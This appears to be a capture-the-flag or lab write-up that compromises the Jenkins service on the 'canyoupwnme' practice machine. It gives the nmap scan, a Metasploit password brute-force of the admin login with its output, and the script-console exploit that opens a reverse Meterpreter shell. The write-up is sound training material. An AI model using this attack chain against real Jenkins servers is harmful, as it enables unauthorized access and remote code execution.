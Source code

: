# Jenkins

## Port scanning to identify Jenkins

Let's scan the target machine (`canyoupwnme`) with `nmap`

    $ nmap -A -T4 -sT -p1-65535 canyoupwnme
    ...
    9000/tcp  open  http        Jetty winstone-2.9
    |_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
    | http-methods:
    |_  Supported Methods: GET HEAD POST OPTIONS
    | http-robots.txt: 1 disallowed entry
    |_/
    |_http-server-header: Jetty(winstone-2.9)
    |_http-title: Dashboard [Jenkins]
    ...

Jenkins is reachable on port `9000`!

## Information gathering

Jenkins exposes an endpoint (`/people` or `/asynchPeople`) where all the
defined users are listed. In the target machine, users are

*   admin (Jarvis)
*   anonymous (anonymous)

After trying the login with few terrible combinations (e.g. `admin/admin`),
let's see if Metasploit can help us

    msf > search jenkins

    Matching Modules
    ================

       Name                                         Disclosure Date  Rank       Description
       ----                                         ---------------  ----       -----------
       auxiliary/gather/jenkins_cred_recovery                        normal     Jenkins Domain Credential Recovery
       auxiliary/scanner/http/jenkins_enum                           normal     Jenkins Enumeration
       auxiliary/scanner/http/jenkins_login                          normal     Jenkins-CI Login Utility
       exploit/linux/misc/jenkins_java_deserialize  2015-11-18       excellent  Jenkins CLI RMI Java Deserialization Vulnerability
       exploit/multi/http/jenkins_script_console    2013-01-18       good       Jenkins Script-Console Java Execution

Let's try with `auxiliary/scanner/http/jenkins_login` and Rockyou wordlist

    msf > use auxiliary/scanner/http/jenkins_login
    msf auxiliary(jenkins_login) > set username admin
    msf auxiliary(jenkins_login) > set pass_file rockyou.txt
    msf auxiliary(jenkins_login) > set rhosts canyoupwnme
    msf auxiliary(jenkins_login) > set rport 9000
    msf auxiliary(jenkins_login) > set stop_on_success true
    msf auxiliary(jenkins_login) > exploit

    [-] 10.0.100.195:9000 JENKINS - LOGIN FAILED: admin:123456 (Incorrect)
    [-] 10.0.100.195:9000 JENKINS - LOGIN FAILED: admin:12345 (Incorrect)
    [-] 10.0.100.195:9000 JENKINS - LOGIN FAILED: admin:123456789 (Incorrect)
    ...
    [-] 10.0.100.195:9000 JENKINS - LOGIN FAILED: admin:flower (Incorrect)
    [-] 10.0.100.195:9000 JENKINS - LOGIN FAILED: admin:playboy (Incorrect)
    [+] 10.0.100.195:9000 - LOGIN SUCCESSFUL: admin:hello
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

Yep! Credentials are `admin/hello`...

## The Groovy scripts

Two years ago, I read an interesting post entitled
[How I hacked Facebook](http://blog.dewhurstsecurity.com/2014/12/09/how-i-hacked-facebook.html).
It refers to an unprotected Jenkins instance where the author used a Groovy
script to execute some commands on the server. Why not trying the same? In the
previous Metasploit search, there is something interesting

    exploit/multi/http/jenkins_script_console

Let's try with it...

    msf > use exploit/multi/http/jenkins_script_console
    msf exploit(jenkins_script_console) > set username admin
    msf exploit(jenkins_script_console) > set password hello
    msf exploit(jenkins_script_console) > set rhost canyoupwnme
    msf exploit(jenkins_script_console) > set rport 9000
    msf exploit(jenkins_script_console) > set targeturi /
    msf exploit(jenkins_script_console) > set target 1
    msf exploit(jenkins_script_console) > exploit

    [*] Started reverse TCP handler on 10.0.100.245:4444
    [*] Checking access to the script console
    [*] Logging in...
    [*] canyoupwnme:9000 - Sending Linux stager...
    [*] Transmitting intermediate stager for over-sized stage...(105 bytes)
    [*] Sending stage (1495599 bytes) to 10.0.100.195
    [*] Meterpreter session 2 opened (10.0.100.245:4444 -> 10.0.100.195:44531) at 2016-04-18 18:13:30 +0200
    [!] Deleting /tmp/AaqyV payload file

    meterpreter > shell
    Process 1840 created.
    Channel 1 created.
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
    jenkins
    $ id
    uid=109(jenkins) gid=117(jenkins) groups=117(jenkins)
    $

Got it!

## Becoming `root`

Work in progress...
